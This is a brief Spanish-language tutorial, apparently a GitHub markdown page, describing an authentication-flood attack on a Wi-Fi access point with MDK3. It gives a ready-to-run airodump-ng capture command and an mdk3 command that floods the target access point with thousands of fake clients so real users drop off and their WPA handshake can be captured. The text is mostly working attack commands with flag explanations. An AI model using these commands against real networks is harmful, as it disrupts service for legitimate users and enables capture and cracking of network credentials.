 # De Auntenticacion con MDK3
Este ataque lo que hace es generar una n cantidad de clientes ser autenticados en el AC victima, de esta manera saturar la red y que los clientes reales se desconecten provocando que se vuelvan a conectar y capturar el handshake.

Empezamos a capturar todo el trafico del AC para llegar a capturar el Handshake

	airodump-ng -c 6 -w CapturasDeAuth-RedBlack --essid Black wlan1mon

- -c 6 *canal del AC*
-  -w Capturas  *nombre del archivo donde se guardara las capturas*
-  --essid Black *nombre del AC*

Una que empezamos a capturar el trafico realizaremos el ataque, esto empezara a generar miles de clientes falsos tratando de autentificarse al AC

	mdk a -a D0:B6:6F:5A:AC:BD 

- a *tipo de ataque*
- -a *direccion mac del AC*
